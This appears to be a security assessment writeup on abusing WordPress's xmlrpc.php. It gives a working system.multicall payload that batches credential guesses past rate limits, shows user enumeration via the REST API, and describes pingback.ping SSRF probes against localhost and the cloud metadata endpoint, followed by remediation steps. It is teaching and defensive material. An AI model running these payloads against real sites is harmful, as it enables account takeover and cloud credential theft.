

We keep running into this one. `xmlrpc.php` is one of the oldest attack surfaces in the WordPress ecosystem, most people assume it's dead weight from 2010, and it still turns up live findings on modern engagements. This writeup covers how we actually found and confirmed it during a recent assessment of a WordPress-based portal, not just the theory.

## Recon: how we even noticed it

Nothing exotic. A WordPress-based site was in scope, so `xmlrpc.php` went on the checklist before anything else, alongside the usual WPScan and Nikto passes. WPScan flagged the endpoint as reachable and enumerated the theme and plugin versions. That alone isn't a finding, `xmlrpc.php` being *present* doesn't mean it's exploitable, so the next step was confirming what it actually let us do.

```bash
wpscan --url https://target.tld --enumerate vp,vt,u
curl -s -X POST https://target.tld/xmlrpc.php -d '<?xml version="1.0"?><methodCall><methodName>system.listMethods</methodName></methodCall>' -H "Content-Type: text/xml"
```

`system.listMethods` came back with about 80 methods exposed, including `pingback.ping` and `system.multicall`. Those two together are the actual attack surface. Everything else on that list is either harmless or requires auth.

## Confirming brute-force amplification

`system.multicall` batches multiple XML-RPC method calls into a single HTTP request. Point it at `wp.getUsersBlogs` (or any method that checks credentials) with a different username/password pair in each batched call, and you get dozens of authentication attempts inside one HTTP request. Most rate limiting counts requests, not the auth attempts buried inside them, so this sails straight past it.

```bash
# one HTTP request, multiple credential attempts batched inside it
curl -s -X POST https://target.tld/xmlrpc.php \
  -H "Content-Type: text/xml" \
  -d '<?xml version="1.0"?>
<methodCall>
  <methodName>system.multicall</methodName>
  <params><param><value><array><data>
    <value><struct>
      <member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member>
      <member><name>params</name><value><array><data>
        <value><string>USERNAME</string></value>
        <value><string>PASSWORD_GUESS</string></value>
      </data></array></value></member>
    </struct></value>
    <!-- repeat this struct per password guess -->
  </data></array></value></param></params>
</methodCall>'
```

We confirmed this was live by sending a small batch (a handful of guesses, not a full wordlist, we didn't need to actually brute-force anything to prove the amplification worked) and watching each one get evaluated independently in the response. That's the proof: the rate limit in front of the login form never saw it coming, because from its point of view, one request came in.

Before that, we'd already pulled three valid usernames for free from the WP-JSON REST API and the site's RSS feed generator, `/wp-json/wp/v2/users/?per_page=100` dumps registered users by default on a lot of installs. Between the username list and the amplification bug, credential stuffing against this install would've been trivial. We didn't need to go further to make the point.

## Testing the pingback SSRF



`pingback.ping` exists so that when Blog A links to Blog B, Blog B's server can verify the link by fetching Blog A's URL server-side. That server-side fetch, initiated by the WordPress server on our behalf, is the SSRF primitive. We're not fetching anything ourselves, we're asking the target's server to fetch it for us.

We pointed it at a spread of internal-only addresses, and instead of guessing blind, we read the fault codes:

| Target | Result |
|---|---|
| `http://127.0.0.1/` | `faultCode=0` (accepted, processed) |
| `http://127.0.0.1:3306/` | `faultCode=0` |
| `http://localhost/` | `faultCode=0` |
| `http://169.254.169.254/` | `faultCode=0` |
| `http://169.254.169.254/latest/meta-data/` | `faultCode=0` |

`faultCode=0` means the pingback method didn't reject the URL outright, it went and tried to fetch it. That's a strong signal, not final proof. To fully confirm exfiltration (versus just "the server attempted a fetch and discarded the result"), the right next step is pointing `sourceUrl` at a URL you control, a webhook.site link or a Burp Collaborator domain, and watching for the inbound callback. We flagged this as the confirmation step rather than claiming full SSRF off fault codes alone. Overclaiming a vuln because the response *looked* right, without watching the actual out-of-band hit, is how you end up walking a finding back later.

What made this interesting rather than academic: `169.254.169.254` is the cloud metadata endpoint on AWS (and Azure/GCP have their own equivalents). If this box was cloud-hosted, a confirmed SSRF here is a straight line to IAM credentials, not just an internal port scan.

## Detection and fix, in order of effort

- **Disable `xmlrpc.php` entirely** if the site doesn't use Jetpack, remote publishing tools, or the WordPress mobile app, the three legitimate users of the endpoint. Most sites don't. This is the fix we recommended first, because it kills every method on the list at once, not just the two we tested.
- If it has to stay enabled for one of those integrations, **block `pingback.ping` and `pingback.extensions.getPingbacks` specifically** via a security plugin or a webserver rule, and cap `system.multicall` at a low call count per request.
- **Egress-filter the webserver** so it can't reach `169.254.169.254` or RFC1918 ranges it has no legitimate reason to talk to. This is the fix that matters even if someone re-enables XML-RPC later, or a different bug opens up the same SSRF path.

This is a fifteen-year-old technique against a default-enabled endpoint. It keeps working because most site owners have never heard of `xmlrpc.php`, and the people who have usually assume "it's just for the mobile app" and move on.
